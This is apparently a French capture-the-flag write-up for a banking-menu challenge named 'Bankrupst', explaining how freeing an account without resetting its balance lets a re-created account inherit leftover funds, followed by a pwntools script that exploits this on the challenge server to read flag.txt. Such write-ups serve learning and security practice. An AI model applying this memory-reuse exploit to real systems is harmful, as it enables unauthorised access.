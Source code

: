# Bankrupst

## Recherche de vulnérabilité

Le programme implémente un système de gestion de compte bancaire avec les fonctionnalités suivantes :

Insertion de la carte bancaire (option 1) : Lorsqu'un utilisateur insère une carte, un nouveau compte est créé en mémoire avec un solde initial de 0 et une limite de 13 dépôts par mois.

Dépôt d'argent (option 2) : L'utilisateur peut déposer un montant d'argent (entre 0 et 100) sur son compte. Chaque dépôt augmente le solde du compte et le nombre de dépôts effectués. Si l'utilisateur tente de dépasser le nombre de dépôts autorisés (13), il reçoit un message d'erreur.

Retrait d'argent (option 3) : L'utilisateur peut retirer une somme d'argent, tant que le solde est suffisant. Si l'utilisateur tente de retirer plus que ce qu'il a sur son compte ou un montant négatif, il reçoit un message d'erreur.

Vérification du solde (option 4) : L'utilisateur peut consulter son solde. Si le solde dépasse un certain seuil (1337), un message spécial est affiché, et le programme tente de lire le fichier flag.txt pour en afficher le contenu.

Suppression de la carte (option 5) : Lorsqu'un utilisateur retire sa carte bancaire, le programme réinitialise le solde et le nombre de dépôts, puis libère la mémoire allouée pour le compte.

Quitter le programme (option 6) : Lorsque l'utilisateur choisit de quitter, la mémoire allouée est libérée avec dealloc et le programme se termine.

On peut remarquer la différence de traitment entre les options 5 et 6.  
Dans l'option 6 la balance n'est pas remise à 0.  

Or la balance n'est pas remise à 0 non plus lorsque l'on crée un nouveau compte.
Donc lorsqu'un compte est créé, sa balance n'est potentiellement pas vide.

Il y a de bonnes chances que l'enchainement des options 6 et 1 replace le compte au même endroit en mémoire.

Voici le code d'exploitation 

```python
#!/usr/bin/env python3

from pwn import *

io = remote('bankrupst.serviel.fr', 1234, ssl=True)

# Insert BankRupst card
io.sendlineafter(b'option: ', b'1')

# Do maximum deposits
for i in range(13):
    io.sendlineafter(b'option: ', b'2')
    io.sendlineafter(b'deposit? ', b'100')

# dealloc BankAccount structure
io.sendlineafter(b'option: ', b'6')

# balance attribute isn't set to 0
io.sendlineafter(b'option: ', b'1')

io.sendlineafter(b'option: ', b'2')
io.sendlineafter(b'deposit? ', b'100')

io.sendlineafter(b'option: ', b'4')

io.interactive()
```